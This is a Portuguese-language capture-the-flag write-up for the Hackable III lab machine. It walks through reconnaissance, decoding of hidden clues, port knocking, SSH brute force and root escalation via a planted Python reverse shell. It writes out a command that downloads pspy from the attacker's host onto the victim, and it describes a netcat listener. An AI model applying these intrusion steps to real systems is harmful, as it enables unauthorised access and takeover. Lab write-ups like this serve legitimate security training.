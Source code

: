 <h2>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/1.JPG)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/2.JPG)

<h2>Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.1.JPG)


<h2>Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.1.JPG)

<h2>Vemos uma wordlist na pasta backup que nos será útil mais tarde</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/5.JPG)


<h2>Percebendo que se trata de portas(10000,4444), vem a mente o port knocking, nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.</h2>

<h3>1° FORMA: Fazendo uma varredura de diretórios por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.1.JPG)


<h3>2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.1.JPG)


<h3>3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.3.JPG)


<h2>Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/7.JPG)


<h2>Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/8.JPG)


<h2>Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/9.JPG)


<h2>A 1° flag está oculta, ls -la</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/10.JPG)



<h2>Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/11.JPG)



<h2>Após fazer login no usuário hackable_3 executaremos o pspy - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root</h2> link pspy: encurtador.com.br/gkrx2

<h4>
atacante: python3 -m http.server
vítima: wget http://ip_kali:8000/pspy
	chmod +x
	./pspy
</h4>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/12.JPG)


<h2>Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell, usei o de python https://shellgenerator.github.io </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/13.JPG)


<h2>Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/14.JPG)

